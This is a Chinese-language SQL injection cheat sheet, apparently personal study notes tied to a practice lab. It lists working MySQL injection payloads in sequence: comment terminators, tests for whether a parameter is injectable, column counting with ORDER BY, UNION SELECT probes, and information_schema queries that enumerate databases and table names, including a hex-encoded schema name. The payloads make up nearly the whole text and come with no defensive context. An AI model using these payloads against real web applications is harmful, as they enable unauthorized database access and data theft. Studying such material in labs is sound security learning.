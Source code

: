 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

--+
-- 任意符号
%23  (#ur编码)

##### 判断注入

1' and 1=1 --+
1' and 1=2 --+

##### 查询字段

1' order by 1 --+ 正常
1' order by 4 --+ 报错
1' order by 3 --+ 正常
字段为3

##### UNION SELECT 联合查询

-1' union select 1,2,3 --+
1' and 1=2 union select 1,2,3 --+
报错2，3

##### 信息收集

version()   #Mysql版本
user()      #数据库用户名
database()  #数据库名
@@datadir() #数据库路径

##### 查询所有数据库

-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+

##### 查询当前数据库的所有表名

-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+
-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x














